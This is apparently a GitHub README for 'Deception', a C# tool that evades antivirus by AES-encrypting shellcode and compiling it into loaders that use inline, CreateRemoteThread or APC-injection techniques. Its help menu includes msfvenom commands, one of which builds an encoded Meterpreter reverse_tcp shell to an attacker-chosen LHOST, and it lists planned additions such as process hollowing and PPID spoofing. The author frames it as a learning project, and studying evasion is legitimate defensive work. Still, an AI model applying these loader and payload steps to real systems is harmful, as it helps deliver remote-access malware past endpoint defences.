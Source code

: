 # Deception
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. Deception will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

Later versions will incorporate
- Move Project to Visual Studio
- More techniques
    - Process Injection
        - Process Hollow
        - Thread Hijack
        - ...
    - Misc
        - PPID Spoofing
        - BlockDlls
        - Module Stomping
        - ...
- Do above techniques with
    - both shellcode and dlls
    - kernel32 and ntdll.dll (direct syscalls)
    - In other languages (C++, Nim, ...)


### Usage
```
# Compile
sudo apt install mono-devel
mcs -out:Deception.exe -pkg:dotnet Utils/* Services/* Models/*  Modules/*  Deception.cs
# Run
./Deception.exe
```

#### Help Menu
```
Usage: 
  ./Deception.exe msf.bin -i       # for inline
  ./Deception.exe msf.bin -t       # for inline: CreateThread
  ./Deception.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./Deception.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./Deception.exe msf.bin -a       # makes all of the above
Paylod Examples: 
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.0.1 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Usage](./Images/deception.png)

### Extras
<details>
<summary>Structure</summary>

Deception.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- DeceptionService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>
